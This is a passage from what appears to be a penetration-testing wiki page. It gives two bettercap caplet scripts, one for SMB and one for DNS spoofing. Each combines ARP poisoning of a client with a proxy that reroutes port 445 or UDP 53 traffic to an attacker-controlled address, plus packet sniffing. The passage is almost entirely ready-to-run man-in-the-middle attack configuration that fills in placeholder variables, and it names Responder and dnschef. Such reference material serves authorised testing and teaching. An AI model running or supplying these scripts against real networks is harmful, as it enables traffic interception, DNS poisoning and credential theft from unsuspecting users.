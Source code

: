 ```bash
set any.proxy.src_port 445
set any.proxy.dst_address $attacker_ip
set any.proxy.dst_port 445

# control logging and verbosity
events.ignore endpoint
events.ignore net.sniff

# start the modules
any.proxy on
arp.spoof on
net.sniff on
```
{% endcode %}
{% endtab %}

{% tab title="DNS spoofing" %}
Start the DNS server \([responder](https://github.com/lgandx/Responder), [dnschef](https://github.com/iphelix/dnschef), or [bettercap](https://github.com/bettercap/bettercap)\) for [DNS poisoning](dns-spoofing.md) then start the ARP poisoning attack.

{% code title="dns\_spoofing.cap" %}
```bash
# quick recon of the network
net.probe on

# set the ARP spoofing
set arp.spoof.targets $client_ip
set arp.spoof.internal false
set arp.spoof.fullduplex false

# reroute traffic aimed at the original DNS server
set any.proxy.iface $interface
set any.proxy.protocol UDP
set any.proxy.src_address $DNS_server_ip
set any.proxy.src_port 53
set any.proxy.dst_address $attacker_ip
set any.proxy.dst_port 53

# control logging and verbosity
events.ignore endpoint
events.ignore net.sniff
events.include net.sniff.dns

# start the modules
any.proxy on
arp.spoof on
net.sniff on
```
{% endcode %}
{% endtab %}
